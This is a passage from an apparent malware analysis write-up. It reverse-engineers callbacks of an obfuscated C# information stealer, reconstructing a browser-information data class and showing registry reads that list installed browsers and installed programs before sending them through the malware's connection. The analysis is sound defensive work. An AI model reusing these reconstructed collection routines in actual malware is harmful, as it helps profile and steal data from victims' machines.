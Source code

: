 ```csharp
```
<img width="506" height="314" alt="image" src="https://github.com/user-attachments/assets/487a43d5-c5c5-40b9-b215-be325407afe7" />

The logic is similar to **Callback 7**.
First, a list of browsers is retrieved.

`registryKey = Registry.LocalMachine.OpenSubKey("SOFTWARE\\Clients\\StartMenuInternet");`

This is the register where windows stores information about the installed browsers that appear in the start menu.
Each of its subkeys is basically an installed browser, for example CHROME.EXE. 

<img width="165" height="99" alt="image" src="https://github.com/user-attachments/assets/4afdcd49-9738-4620-878d-bb40a8e71d9d" />

We can now reconstruct **Entity4**:
```csharp
[DataContract(Name = "Entity4", Namespace = "Entity")]
public class BrowserInformation
{
  [DataMember(Name = "Id1")] // original obfuscated variable name
  public string BrowserName { get; set; }

  [DataMember(Name = "Id2")] // original obfuscated variable name
  public string BrowserVersion { get; set; }

  [DataMember(Name = "Id3")] // original obfuscated variable name
  public string BrowserPath { get; set; }
}
```
… So basically, this callback steals all installed browsers and their info.

#### Callback 9
```csharp
public static void ылв92р34выа(ConnectionProvider connection, Entity2 settings, ref Entity7 result)
{
    Entity13 entity = connection.Id15(SystemInfoHelper.ListOfPrograms());
    if (entity == Entity13.Id3)
    {
        ылв92р34выа(connection, settings, ref result);
    }
    if (entity == Entity13.Id4)
    {
        throw new InvalidOperationException();
    }
```

<img width="458" height="511" alt="image" src="https://github.com/user-attachments/assets/9a2dbf3a-14a5-4d40-9f19-9db566e928df" />

<img width="394" height="238" alt="image" src="https://github.com/user-attachments/assets/aef39df5-b4ff-4066-9705-effa90ef07ea" />

Callback 9 just accesses the register `SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Uninstall`.

The Uninstall folder contains all programs.
→ DisplayName is the program’s name as displayed on the device,
→ DisplayVersion is the program’s version.
